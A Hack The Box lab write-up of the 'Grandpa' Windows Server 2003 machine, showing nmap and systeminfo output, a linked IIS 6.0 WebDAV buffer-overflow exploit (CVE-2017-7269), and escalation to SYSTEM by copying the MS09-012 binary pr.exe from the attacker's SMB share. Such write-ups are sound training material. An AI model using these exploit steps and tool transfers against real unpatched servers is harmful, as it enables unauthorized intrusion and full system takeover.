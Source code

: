 ```yaml
---
layout: post
title: Grandpa without metasploit
date: 2020-03-31
author: th3-3inst3in
comments: true
categories: htb
tags: [Windows,htb]
---
```


## Grandpa without metasploit

So I thought time to shift focus from metasploit and try to do machines without metasploit. I'll admit it took wayy longer and many many failed attempts before I finally got root. Hope ya'll learn some new tricks form this writeup

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/main.png)


Let's do a quick nmap all ports

```perl

Nmap scan report for 10.10.10.14
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Fri, 03 Apr 2020 18:34:04 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

<br>

### Enumeration

- So I search for IIS 6 vulnerabilites and mainly found 2 things 
- 1) Web Dav exploit
- 2) The BufferOver flow exploit, since I used the webdav one in granny htb machine, thought I'd try buffer over flow so I found an exploit for it on github.
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell  



![LFI]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/lfi.png)



### Exploitation


Using the iis6 buffer overflow exploit I got an inital shell on the Windows box

![initial shell]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/shell1.png)


Now I won't lie Priv esec was a bitch, took hours. What I am presenting here is the final version of what happened but originally I hit many dead ends and restarted the machine about 10 times or more.

- So started off using Windows Exploit suggester which requires us to save the systeminfo in a text file and feed that as an arguments to find known exploits for that version of the OS.


```perl
sysinfo 
C:\wmpub\test>systeminfo 
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 11 Minutes, 18 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 796 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,327 MB
Page File: In Use:         143 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A

```

![Windows exploit suggester]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/exploit-suggest.png)


- after many a failed exploits I finally found MS09-012 and it worked landing me in a system shell
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012  

- Downloaded the pr.exe file and transfered it to the victim using impacket smbserver

- the smb share can easily be accessed using copy command from the prompt 

_Prompt> copy \\<IP>\test\pr.exe ._


![smbserver]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/smbserver.png)



- after copied on the victim it can be used as follows : pr.exe "command"

```perl
C:\wmpub\test>copy \\10.10.14.18\test\pr.exe .    
copy \\10.10.14.18\test\pr.exe .
        1 file(s) copied.

C:\wmpub\test>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\wmpub\test

04/04/2020  10:48 AM    <DIR>          .
04/04/2020  10:48 AM    <DIR>          ..
04/04/2020  10:42 AM            73,728 pr.exe
               1 File(s)         73,728 bytes
               2 Dir(s)  18,093,436,928 bytes free

C:\wmpub\test>pr.exe "whoami"
pr.exe "whoami"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1864 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:whoami
nt authority\system

C:\wmpub\test>whoami
whoami
nt authority\network service

C:\wmpub\test>

```




![system]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/system.png)

phew! we otta do more of these non msf ctfs.